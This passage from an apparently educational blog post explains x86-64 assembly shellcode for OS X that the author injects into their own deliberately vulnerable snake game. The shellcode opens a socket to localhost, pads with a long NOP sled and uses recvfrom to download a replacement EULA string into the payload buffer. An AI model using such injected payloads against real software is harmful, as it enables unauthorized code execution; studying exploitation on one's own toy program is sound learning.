 Setting up a socket connection in assembly isn't super exciting, given that socket(), connect(), and recvfrom() are all syscalls on OS X, so there's nothing exotic about it really. I had so far gotten by without allocating any stack variables (and as such, needing to clean those up), so I ended up reserving the last chunk of the eula buffer to use to store the sockaddr structure I was using, but that's about as weird as it got. I also hardcoded the values of the sockaddr struct (by writing a C program to set it up and just copying the bytes from the sockaddr struct it created) rather than calculating them the normal way to save some time. Setting all this up looked like this: 

{% highlight asm %}
_SetUpSocket:
    movl $0x2000061, %eax #  61 is socket
    movq $2, %rdi # first socket arg - AF_INET
    movq $1, %rsi # second socket arg - SOCK_STREAM
    movq $0, %rdx # third socket arg - protocol
    syscall # call socket, socket handle in eax
    movq %rax, %rdi # move socket handle to ebx
    movl $0x2000062, %eax # next syscall will be to connect
    movabsq $0x00000000000096a1, %rsi 
    movb $2, (%rsi) # now write the sockaddr bytes
    add $1, %rsi
    movb $0x27, (%rsi)
    add $1, %rsi
    movb $0x15, (%rsi)
    add $1, %rsi
    movq $0x7f, (%rsi)
    add $3, %rsi
    movq $1, (%rsi)
    movabsq $0x00000000000096a0, %rsi # second arg to connect is address of sockaddr struct, located in our buffer (pre-zeroed by bootstrap)
    movq $16, %rdx # third arg is len of sockaddr
    syscall
{% endhighlight %}

Since I wanted to download the new EULA string into the same buffer that the payload code currently lived, I ended up adding a huge string of NOP instructions before calling recvfrom, and limiting the size of the EULA string so that it wouldn't stomp on instructions that still mattered. So immediately after the code above, there was a long string of 700 NOP instructions before I actually called recvfrom and then returned from the function. This last bit of assembly looked like this: 

{% highlight asm %}
_downloadeula:
        movl $0x200001D, %eax # next syscall will be to recvfrom
        movabsq $0x00000000000092b0, %rsi # second arg is address of this buffer
        movq $512, %rdx # third arg is len, eula will be up to 512 bytes 
        movq $0x0, %r10 # fourth arg is flags
        movq $0x0, %r8 # fifth arg is socket ptr, use null since we have a connected socket
        movq $0x0, %r9 #  ignore 
        syscall
        ret 
{% endhighlight %}

If you're curious, the entire source for this payload is both [here](/images/post_images/2019-12-04/payloadv1.txt) and on the [github project](https://github.com/khalladay/InsecureSnake) that accompanies this blog post. Note that the payload code doesn't exactly match the code string in the final python server script, since I was manually adding padding and replacing some NOPs with 0xCD, as described earlier.
